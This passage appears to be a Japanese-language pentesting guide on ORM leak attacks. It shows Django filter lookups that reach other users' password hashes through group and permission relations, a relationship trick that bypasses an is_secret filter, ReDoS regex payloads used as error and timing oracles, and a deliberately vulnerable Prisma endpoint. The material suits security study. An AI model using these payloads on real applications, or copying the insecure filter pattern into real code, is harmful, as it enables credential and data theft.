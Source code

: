 - **Djangoのグループと権限の多対多関係を悪用する**: さらに、AbstractUserモデルはDjangoでユーザーを生成するために使用され、デフォルトでこのモデルには**PermissionおよびGroupテーブルとの多対多関係**があります。これは基本的に、**同じグループにいるか、同じ権限を共有している場合に、1人のユーザーから他のユーザーにアクセスする**ためのデフォルトの方法です。
```bash
# By users in the same group
created_by__user__groups__user__password

# By users with the same permission
created_by__user__user_permissions__user__password
```
- **フィルター制限のバイパス**: 同じブログ投稿では、`articles = Article.objects.filter(is_secret=False, **request.data)`のようなフィルタリングの使用をバイパスすることが提案されました。is_secret=Trueのアーティクルをダンプすることが可能です。なぜなら、リレーションシップからArticleテーブルに戻ることができ、非秘密の記事から秘密の記事を漏洩させることができるからです。結果は結合され、is_secretフィールドは非秘密の記事でチェックされる一方で、データは秘密の記事から漏洩します。
```bash
Article.objects.filter(is_secret=False, categories__articles__id=2)
```
> [!CAUTION]
> リレーションシップを悪用することで、表示されるデータを保護するためのフィルターをバイパスすることが可能です。

- **Error/Time based via ReDoS**: 前の例では、フィルタリングが機能しているかどうかによって異なる応答が得られることが期待されていましたが、データベースで何らかのアクションが行われ、応答が常に同じである可能性もあります。このシナリオでは、データベースエラーを発生させて新しいオラクルを得ることが可能かもしれません。
```json
// Non matching password
{
"created_by__user__password__regex": "^(?=^pbkdf1).*.*.*.*.*.*.*.*!!!!$"
}

// ReDoS matching password (will show some error in the response or check the time)
{"created_by__user__password__regex": "^(?=^pbkdf2).*.*.*.*.*.*.*.*!!!!$"}
```
- **SQLite**: デフォルトではregexpオペレーターがありません（サードパーティの拡張機能を読み込む必要があります）
- **PostgreSQL**: デフォルトのregexタイムアウトがなく、バックトラッキングに対してより耐性があります
- **MariaDB**: regexタイムアウトがありません

## Prisma ORM (NodeJS)

以下は[**この投稿から抽出されたトリック**](https://www.elttam.com/blog/plorming-your-primsa-orm/)です。

- **完全な検索制御**:

<pre class="language-javascript"><code class="lang-javascript">const app = express();

app.use(express.json());

app.post('/articles/verybad', async (req, res) => {
try {
// Attacker has full control of all prisma options
<strong>        const posts = await prisma.article.findMany(req.body.filter)
</strong>        res.json(posts);
} catch (error) {
res.json([]);
}
});
</code></pre>
